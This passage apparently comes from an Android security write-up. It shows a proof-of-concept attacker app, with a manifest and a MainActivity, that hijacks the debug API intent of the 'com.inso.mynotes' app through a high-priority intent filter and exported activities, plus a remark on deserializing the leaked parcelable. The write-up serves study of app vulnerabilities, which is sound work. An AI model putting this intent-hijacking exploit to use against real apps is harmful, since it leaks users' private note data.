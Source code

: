 - AndroidManifest.xml
```xml
<permission android:name="com.inso.APIRETSRICTION"></permission>
    <uses-permission android:name="com.inso.APIRETSRICTION" />
    <uses-permission android:name="android.permission.INTERNET"/>

    <application
        android:allowBackup="true"
        ...
        android:usesCleartextTraffic="true"
        tools:targetApi="31">
        <activity
            android:name=".LeakActivity2"
            android:exported="true" />
        <activity
            android:name=".LeakActivity"
            android:exported="true">
            <intent-filter android:priority="999">
                <action android:name="COM_INSO_DEBUG_API" />
                <category android:name="android.intent.category.DEFAULT" />
            </intent-filter>
        </activity>
        <activity
            android:name=".MainActivity"
            android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.MAIN" />
                <category android:name="android.intent.category.DEFAULT" />
                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>

```

- MainActivity.java
```java
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Intent leakplease = new Intent();
        leakplease.setClassName("com.inso.mynotes","com.inso.mynotes.NoteAPI");
        leakplease.putExtra("debug","foo");
        startActivity(leakplease);
    }
}
```

> To be able to deserialize the parcelable extra, the malicious application must integrate the original object as defined in the malicious application `f2.a`.
